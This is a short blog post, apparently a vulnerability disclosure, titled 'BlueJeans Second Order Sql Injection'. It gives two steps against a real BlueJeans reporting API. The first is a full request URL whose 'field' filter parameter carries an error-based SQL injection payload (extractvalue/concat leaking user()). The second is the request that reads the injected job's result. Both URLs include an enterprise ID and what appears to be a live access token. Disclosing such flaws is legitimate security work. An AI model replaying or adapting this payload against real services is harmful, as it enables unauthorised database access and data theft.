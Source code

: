 ```yaml
---
layout: post
title: BlueJeans Second Order Sql Injection
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - saltedfish</p>

## Step 1:

<img src="https://i.loli.net/2019/03/06/5c7f7c6a83dbc.jpeg">

{% highlight php %}
https://indigo-api.bluejeans.com/v1/enterprise/158555/indigo/reportJob/meetings?filter=[{"type":"date","comparison":"gt","value":"2018-11-06T00:00:00+08:00","field":"start_time%20>'2018-11-06T00:00:00+08:00'+and(extractvalue(1,concat(0x2c,user())))%23"},{"type":"date","comparison":"lt","value":"2019-01-09T23:59:59+08:00","field":"end_time"}]&fileName=meetings_6th-Nov-2018_9th-Jan-2019&userid=2782750&filter=%255B%257B%2522type%2522%253A%2522date%2522%252C%2522comparison%2522%253A%2522gt%2522%252C%2522value%2522%253A%25222018-11-06T00%253A00%253A00%252B08%253A00%2522%252C%2522field%2522%253A%2522start_time%2522%257D%252C%257B%2522type%2522%253A%2522date%2522%252C%2522comparison%2522%253A%2522lt%2522%252C%2522value%2522%253A%25222019-01-09T23%253A59%253A59%252B08%253A00%2522%252C%2522field%2522%253A%2522end_time%2522%257D%255D&access_token=3cfd90abe2fa44c1b1d68555c6c01416&app_name=command_center
{% endhighlight %}

(or you just use your enterprice number and your accesstoken,you can get this when you login in)

<img src="https://i.loli.net/2019/03/06/5c7f7c6ab7a24.jpeg">

&nbsp;&nbsp;&nbsp;Now, you will get a jobid like `5c7e04884f0cb3fb45043ab9`

## Step 2:

{% highlight php %}
https://indigo-api.bluejeans.com/v1/enterprise/158555/indigo/jobStatus/`5c7e04884f0cb3fb45043ab9`?filter=&access_token=3cfd90abe2fa44c1b1d68555c6c01416&_=1551762518572&app_name=command_center
{% endhighlight %}

<img src="https://i.loli.net/2019/03/06/5c7f7c6ad61df.jpeg">